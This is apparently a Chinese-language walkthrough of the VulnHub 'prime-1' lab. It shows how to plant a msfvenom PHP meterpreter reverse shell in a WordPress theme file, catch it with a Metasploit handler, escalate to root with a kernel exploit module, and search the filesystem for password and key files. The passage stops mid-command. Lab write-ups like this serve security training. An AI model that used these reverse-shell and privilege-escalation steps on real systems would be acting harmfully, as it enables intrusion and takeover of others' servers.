

可以明显的发现`192.168.64.5fd35:96db:d611:221f:c0cc:9293:2174:5e78%20fd35:96db:d611:221f:a260:9d2:3a71:e408`，于是在Burp Suite的HTTP里再次添加规则：(这里把Header和Body索性都换了)
- Response Header:`192.168.64.5fd35:96db:d611:221f:c0cc:9293:2174:5e78fd35:96db:d611:221f:a260:9d2:3a71:e408` ➡️ `192.168.64.5`
- Response Body:`192.168.64.5fd35:96db:d611:221f:c0cc:9293:2174:5e78fd35:96db:d611:221f:a260:9d2:3a71:e408` ➡️ `192.168.64.5`

再次访问`http://192.168.64.5:80/wordpress/wp-login.php`，输入用户名和密码，显示如下：

这个问题应该是css等样式文件没有加载进来，查看网页源码：


所以还需要使用Burp Suite替换，添加如下规则：
- Response body: `192.168.64.5 fd35:96db:d611:221f:c0cc:9293:2174:5e78 fd35:96db:d611:221f:a260:9d2:3a71:e408` ➡️ `192.168.64.5`

刷新页面：界面加载成功


### 查找wordpress上面有没有文件上传、文件写入等操作
目前找到2个可能有漏洞的点：
#### 文件上传
依次点击：`Apprearance > Themes > Add New Theme > Upload Theme`，显示如下：

随便上传一张图片上去，显示如下：

说明当前用户在系统中没有写入的权限，这个文件上传应该是不行。

#### 文件写入
- 依次点击：`Plugins > Plugin Editor`，看到右侧有许多的php文件
- 依次点击：`Appearance > Theme Editor`，可以看到右侧有许多的可以修改的文件。重点关注php、js等文件。

通过 $努力^n$ 的查找，终于在Theme Editor里面找到一个文件`secret.php`可以修改。

**使用msfvenom生成PHP反弹脚本**
```shell
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.64.5 lport=8888 -f raw -o r_tcp.php
```
将文件`r_tcp.php`里面的内容粘贴进`secret.php`里面。点击`upload file`，页面出现如下问题：

- 出现这个问题的原因是：目前这个secret.php是wordpress正在使用的一个主题里面文件，wordpress为了防止用户随意修改文件导致网站出错，因此会本地回环访问这个上传/修改的文件，但是这里本地回环访问不成功，所有没有修改成功。所有只要通过wordpress后台去选择使用另外一个主题，那么我们上传这个secret.php，wordpress就不会去本地回环检查了。
- 解决：在`Appearance > Themes`里面随便选一个其他的主题激活（secret.php在主题*Twenty Nineteen*里面），然后将`r_tcp.php`里面的内容复制进去，点击上传。

在kali的一个终端里面使用msf监听端口8888.
```shell
$ msfconsole
msf > use exploit/multi/handler
msf > set lhost 192.168.64.2
msf > set lport 8888
msf > run
```
如下图：


在wordpress里面主题的目录一般在`/var/www/html/wordpress/wp−content/themes/[主题名]/[文件名]`

- 确定主题名：查看浏览器的url，可以查看到`theme=twentynineteen`，有理由相信，主题名可能就是`twentynineteen`(实在不行就去扫一下)
- 确定文件名：这个很明显就是`secret.php`


# 提权

## 利用内核漏洞提权

打开浏览器，访问：`http://192.168.64.5:80/wordpress/wp−content/themes/twentynineteen/secret.php`

可以在kali的msf看到：已经拿到meterpreter了


查看linux版本：


```shell
meterpreter > background    # 将当前session调至后台
msf > search ubuntu 16. priv_esc
msf > use exploit/linux/local/bpf_sign_extension_priv_esc
```
下面设置参数：
```
set session 1
set lhost 192.168.64.5
set lport 4444
```
设置完参数之后，`run`. 成功拿到root权限。



## 利用靶场作者的提示提权

输入：
```shell
$ sudo -l
```

显示如下: 


于是，利用sudo执行这个命令，
```shell
sudo /home/saket/enc
```
这里需要密码，这个密码可以在系统里面找：可以在系统里面查找类似带有如下字样的文件
- pass
- key
- www-data
- saket
- victor
- enc
查找的时候可以排除一些文件夹，这些文件夹中基本上是不会有我们想要的信息的/是我们目前身份根本访问不到的。
```shell
find / \( -path /proc -o -path /sys -o -path /root -o -path /dev -o -path /lib -o -path /usr \) -prune -o -iname *[上面的字样]* -print 2>/dev/null
```

经过几轮查找，终于找到`/opt/backup/server_database/backup_pass`
内容如下：


于是继续去执行`sudo /home/saket/enc`:


不知道这个命令的成功执行干了些什么：只能推测了
- 转变身份了？变成root了？
- 生成新文件了？
- ...

没变身份，那就继续找一下文件：
```shell
find / \( -path /proc -o -path /sys -o -path /root -o -path /dev -o -path /lib -o -path /usr \) -prune -o -iname *[上面的字样]* -print 2>/dev/null
```
在`/home/saket`里面找到`key.txt`与`enc.txt`
查看一下`key.txt`与`enc.txt`：


执行命令：
```shell
$ md5=$( printf %s 'ippsec' | md5sum | awk )
```


---
---

# 硬件与软件平台
## 硬件
- Apple Macbook pro M1-Pro 32G 512G
- UTM虚拟机

## 软件
kali
- IP: `192.168.64.2`
- OS Realease: `debian 2025.4`
- Arm64

prime-1: 
- `https://www.vulnhub.com/entry/prime-1,358/`

---

> 水平有限，有不足、错误之处欢迎指出。🧐